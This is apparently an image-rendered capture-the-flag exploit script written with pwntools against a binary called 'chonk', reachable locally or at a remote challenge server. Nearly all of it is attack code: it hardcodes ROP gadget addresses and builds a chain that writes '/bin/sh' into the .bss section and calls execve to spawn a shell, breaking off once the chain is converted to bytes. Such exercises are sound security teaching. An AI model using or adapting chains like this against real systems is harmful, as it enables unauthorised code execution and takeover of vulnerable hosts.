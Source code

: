 	```
	from pwn import *
	
	context.arch = 'amd64'
	if args.REMOTE:
	    p = remote('6447.lol', 7001)
	elif args.HOST:
	    p = process('./chonk')
	else:
	    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
	    p = gdb.debug('./chonk',
	                  gdbscript='''
	                      b *be_exploited
	                      c
	                      ''')
	
	# Define addresses for gadgets and `.bss` writable section
	writable_addr = 0x4abac0               # Start of .bss section
	pop_rax_ret = 0x00000000004213eb       # Address of `pop rax; ret`
	pop_rsi_ret = 0x0000000000477e3d       # Address of `pop rsi; ret`
	mov_rsi_rax_ret = 0x00000000004207c5   # Address of `mov qword ptr [rsi], rax; ret`
	pop_rdi_ret = 0x00000000004788b3       # Address of `pop rdi; ret`
	syscall_ret = 0x000000000040b9f6       # Address of `syscall; ret`
	
	# Execve syscall number for Linux x86-64
	execve_syscall_num = 59
	
	# Full 64-bit string for "/bin/sh"
	bin_sh = 0x0068732f6e69622f  # "/bin/sh\x00" as a single 64-bit value
	
	# Constructing the ROP chain
	rop_chain = [
	    # Write "/bin/sh" to writable_addr
	    pop_rax_ret, bin_sh,               # Set rax = "/bin/sh\x00"
	    pop_rsi_ret, writable_addr,        # Set rsi = writable_addr
	    mov_rsi_rax_ret,                   # Write rax to [rsi] (writable_addr)
	
	    # Set up execve syscall
	    pop_rax_ret, execve_syscall_num,   # Set rax = 59 (execve syscall number)
	    pop_rdi_ret, writable_addr,        # Set rdi = writable_addr ("/bin/sh")
	    pop_rsi_ret, 0,                    # Set rsi = 0 (NULL for arguments)
	    syscall_ret                        # Trigger the syscall; rdx is implicitly 0
	]
	
	# Convert the ROP chain to a payload
	rop_chain_bytes = b''.join(addr.to_bytes(8, 'little') for addr in rop_chain)
	